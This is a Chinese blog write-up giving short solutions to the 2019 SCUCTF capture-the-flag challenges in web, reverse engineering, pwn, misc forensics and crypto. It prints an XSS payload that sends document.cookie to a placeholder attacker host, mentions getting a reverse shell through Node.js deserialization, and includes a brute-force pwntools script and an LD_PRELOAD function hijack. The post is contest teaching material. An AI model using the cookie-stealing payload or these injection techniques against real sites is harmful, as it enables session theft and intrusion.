<!--yml
category: 未分类
date: 2022-04-26 14:34:57
-->

# 2019SCUCTF部分题解_东坡何罪发文章总是审核不通过，去博客园了的博客-CSDN博客

> 来源：[https://blog.csdn.net/perfect0066/article/details/90381016](https://blog.csdn.net/perfect0066/article/details/90381016)

# 2019SCUCTF部分题解

比赛地址：[https://2019ctf.scuctf.com](https://2019ctf.scuctf.com)
时间有限，writeup写的简单了点，有时间再补充

### 赛前通知

#### 解题思路



#### flag

scuctf{signup}

## web

### 来了老弟

#### 解题思路

直接burpsuite抓包


对flag进行urldecode，在进行base64解密得flag

#### flag

SCUCTF{y0U_jUs7_neEd_car3ful}

### 你好呀

#### 解题思路




反序列化漏洞，见参考链接

获得一个反弹shell


#### 参考链接：

Node.js 反序列化漏洞远程执行代码（CVE-2017-5941） - 20145312袁心 - 博客园
[https://www.cnblogs.com/yx20145312/p/7020206.html](https://www.cnblogs.com/yx20145312/p/7020206.html)

利用 Node.js 反序列化漏洞远程执行代码
[https://paper.seebug.org/213/](https://paper.seebug.org/213/)

#### flag

scuctf{2602547F25B5C13D62F010230D917481}

### 简单的XSS

#### 解题思路

先访问 [http://120.78.185.175:5000/hachp1/love/index.php?greet=<iframe src="../">](http://120.78.185.175:5000/hachp1/love/index.php?greet=%3Ciframe%20src=%22../%22%3E)


再访问

```
http://120.78.185.175:5000/hachp1/love/index.php?greet=<script>document.location.href="https://yourIP?c="%2bdocument.cookie;</script> 
```

具体什么原理我也不清楚，在网上找到相似的题就把payload抄过来了。

#### 参考链接

我的CSP绕过思路及总结 - 先知社区
[https://xz.aliyun.com/t/5084](https://xz.aliyun.com/t/5084)

Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup | Blog - 0daylabs
[https://blog.0daylabs.com/2016/09/09/bypassing-csp/](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)

有趣的cdn bypass CSP · LoRexxar’s Blog
[https://lorexxar.cn/2017/02/16/cdn-bypass-csp/](https://lorexxar.cn/2017/02/16/cdn-bypass-csp/)

TCTF/0CTF2018 XSS Writeup
[https://paper.seebug.org/574/#h4x0rsspace](https://paper.seebug.org/574/#h4x0rsspace)

#### flag

scuctf{l0v3_15_s0_w4rm}

### 稍难一点的XSS

#### 解题思路





#### 参考链接

和上面一个的参考链接一样，
顺便说一下上面的链接里有一个和 更难的XSS 这道题非常类似的题，不过更难的XSS 改了一点点，没做出来。

#### flag

scuctf{Y0u_w0n_th3_G4m3}

## re

### showme666

#### 解题思路

DLL劫持

```
/* Filename: dlsym.c */
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>

int (*realopen)(const char *pathname, int flags);
int (*realclose)(int fd);

int rand() {

    fputs("you will get 6", stderr);

    return 5;
} 
```


具体原理不多讲，见参考链接
感觉还有更简单的方法

#### 参考链接

linux库函数劫持技术 - 程序园
[http://www.voidcn.com/article/p-sinxjpki-pz.html](http://www.voidcn.com/article/p-sinxjpki-pz.html)

#### flag

scuctf{4b54089e328eab73758825a0b40b5be6}

## pwn

### babystack

#### 解题思路

栈溢出
输入11111111111111113


#### flag

scuctf{f3035665-6614-43c3-a3ad-1ca46242c0fd}

#### login

#### 解题思路

```
 from pwn import *
import string

dic=string.printable

data='scuctf{'

while 1:
	p=remote('119.23.206.23',10002)

	p.sendline('1')

	for d in dic:

		p.recvuntil('Your password :')
		p.send(data+d)
		recv = p.recvline()

		if 'come' in recv:
			data = data +d
			print data
			break 
```

#### flag

scuctf{fa3256e7-3d65-4f37-b5fb-87923af1a7f2}

## MISC

### 流量分析

#### 解题思路

抓取的usb流量，
使用
tshark -r usb.pcapng -T fields -e usb.capdata > usbdata.txt
提取数据
在网上找到脚本解析得到的数据，
一开始找到的脚本不合适，解析得到的flag不对，，，看来要注意分辨网上找的脚本呀。

```
normalKeys = {"04":"a", "05":"b", "06":"c", "07":"d", "08":"e", "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j", "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o", "13":"p", "14":"q", "15":"r", "16":"s", "17":"t", "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y", "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4", "22":"5", "23":"6","24":"7","25":"8","26":"9","27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\","32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".","38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
shiftKeys = {"04":"A", "05":"B", "06":"C", "07":"D", "08":"E", "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J", "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O", "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T", "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y", "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$", "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"","34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
output = []
keys = open('usbdata.txt')
for line in keys:
    try:
        if line[0]!='0' or (line[1]!='0' and line[1]!='2') or line[3]!='0' or line[4]!='0' or line[9]!='0' or line[10]!='0' or line[12]!='0' or line[13]!='0' or line[15]!='0' or line[16]!='0' or line[18]!='0' or line[19]!='0' or line[21]!='0' or line[22]!='0' or line[6:8]=="00":
             continue
        if line[6:8] in normalKeys.keys():
            output += [[normalKeys[line[6:8]]],[shiftKeys[line[6:8]]]][line[1]=='2']
        else:
            output += ['[unknown]']
    except:
        pass
keys.close()

flag=0
print("".join(output))
for i in range(len(output)):
    try:
        a=output.index('<DEL>')
        del output[a]
        del output[a-1]
    except:
        pass
for i in range(len(output)):
    try:
        if output[i]=="<CAP>":
            flag+=1
            output.pop(i)
            if flag==2:
                flag=0
        if flag!=0:
            output[i]=output[i].upper()
    except:
        pass
print ('output :' + "".join(output)) 
```

#### 参考链接

关于usb流量分析 - 简书
[https://www.jianshu.com/p/92064f2e9dcb](https://www.jianshu.com/p/92064f2e9dcb)

#### flag

scuctf{usbliuliangfenxi}

### stream

#### 解题思路

使用010edit修改相关标志位，让隐藏的文件显示出来


#### flag

scuctf{Th1s_A_s1mpl3_ADS}

### 婉姐姐的内存镜像

#### 解题思路

根据题目提示使用
volatility -f problem.vmem --profile=WinXPSP2x86 clipboard
获取剪切板的内容


base64解密

一开始以为省略号的内容是让人猜的，后来才想到应该是没显示完。

#### flag

scuctf{ec10a7ad0896c0e5562fbba6a1c1808f}

### 藏在最下面的flag

#### 解题思路

LSB隐写，
提取出来得到一张二维码图片




#### flag

scuctf{6ea6688cc99719eb4624eef718719215}

### find others

#### 解题思路

使用hex把四张图片都提取出来，补上文件头，拼成一张二维码，


#### flag

scuctf{yOu_f1x_It_very_g00d}

## CRYPTO

### 佛说，让你签个到

#### 解题思路

与佛论禅
[http://www.keyfc.net/bbs/tools/tudoucode.aspx](http://www.keyfc.net/bbs/tools/tudoucode.aspx)

在这个网站解密



#### flag

scuctf{W31c0me_to_scUcTF2ol9}

### audio

#### 解题思路

用audacity打开文件

得到

```
... -.-. ..- -.-.  - ..-. - .... .. ... .. ... .-. . .- .-.. .-.. -.-- -- . -. -.. --- -.- ..- ... .- .. 
```

莫尔斯电码解密得flag

#### flag

scuctf{thisisreallymendokusai}